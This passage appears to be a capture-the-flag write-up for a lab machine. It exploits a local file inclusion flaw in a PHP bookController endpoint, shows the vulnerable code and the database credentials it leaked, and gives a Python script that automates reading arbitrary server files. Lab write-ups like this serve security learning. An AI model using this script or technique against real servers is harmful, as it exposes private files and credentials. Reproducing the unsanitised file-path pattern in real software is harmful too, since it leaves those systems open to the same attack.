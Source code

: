 ### LFI

Try to include server `../includes/bookController.php` file to check lfi and Get `bookController.php` file.

![](screenshots/lfi.png)

This script simply including file from filesystem if method set to `1` with parameter `book` and second thing is that this script including `../db/db.php`
```php
... [snip] ...
    require '../db/db.php';
... [snip] ...
    elseif ($_POST['method'] == 1){
        $out = file_get_contents('../books/' . $_POST['book']);
    }
... [snip] ...
```

Using lfi vuln read that `db.php` file amd get dbcreds, But remote host not allowed access to mysql server.
```php
... [snip] ...
$user="bread";
$password="jUli901";
... [snip] ...
```

Get the lfi but burp out of lfi look awful so i create a simple python script. Not perfect but can do the job.
```py
import requests as r
import sys

url = 'http://10.10.10.228/includes/bookController.php'


def lfi(file):
    data = {
        "title": "lfi",
        "author": "lfi",
        "method": 1,
        "book": file
    }

    rspn = r.post(url, data=data)
    cleaned = rspn.text.replace('\\r\\n', '\n').replace('\\', '')
    return cleaned


print(lfi(sys.argv[1])[1:-1])
```
